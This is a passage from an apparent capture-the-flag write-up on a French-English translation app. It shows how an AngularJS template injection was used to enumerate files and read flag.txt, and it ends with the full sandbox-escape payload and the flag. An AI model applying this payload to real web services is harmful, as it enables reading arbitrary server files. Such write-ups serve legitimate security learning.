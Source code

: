 By calling `/en.json`, it leads us to:

```[
	"$SCOPE",
	"Couldn't load template: Error: ENOENT: no such file or directory, open './en.json'"
	]
```

Argh! We were so close! But let’s take a look at the previous code – we’re now in the template directory but trying to call a file from under `i18n`. So we should prepend `i18n/` to the directory name. 

```
[
	"$SCOPE",
	"{\n \"lang\": \"en\",\n \"translate\": \"Translate\",\n \"not_found\": \"I don't know that word, sorry.\",\n \"in_lang_query_is_spelled\": \"In french, &lt;b&gt;{{userQuery}}&lt;/b&gt; is spelled &lt;b ng-bind=\\\"i18n.word(userQuery)\\\"&gt;&lt;/b&gt;.\",\n \"input_query\": \"What French word do you want to translate into English?&lt;br/&gt;A few examples: &lt;a href=\\\"?query=informatique%20en%20nuage&amp;amp;lang=en\\\"&gt;informatique en nuage&lt;/a&gt;, &lt;a href=\\\"?query=téléverser&amp;amp;lang=en\\\"&gt;téléverser&lt;/a&gt;\",\n \"title\": \"Translation utility for technical terms in French and English\",\n \"subtitle\": \"In the current pluri-polarized great powers context, internationalization is the key for good trans-border understanding between tech workers.\",\n \"informatique en nuage\": \"cloud computing\",\n \"mot-dièse\": \"hashtag\",\n \"courriel\": \"email\",\n \"téléverser\": \"upload\",\n \"ordiphone\": \"smartphone\",\n \"original_word\": \"Word to translate\"\n}\n"
	]

```

We’ve got the page that shows the English translation! Now that we can enumerate any file, it is time to go for the flag.

`GET /add?lang=en&word=input_query&translated={{[constructor.constructor('return+global')().angular%3dthis,constructor.constructor('return+global.angular.$parent.i18n.template("./flag.txt")')()]+|+json}}`


![flag](https://ylkoh.top/assets/Google-CTF-2018/flag.png)

And we've got the flag! 

**Final Payload:** `{{[constructor.constructor('return+global')().angular%3dthis,constructor.constructor('return+global.angular.$parent.i18n.template("./flag.txt")')()]+|+json}}`

**Flag:** `CTF{Televersez_vos_exploits_dans_mon_nuagiciel}`
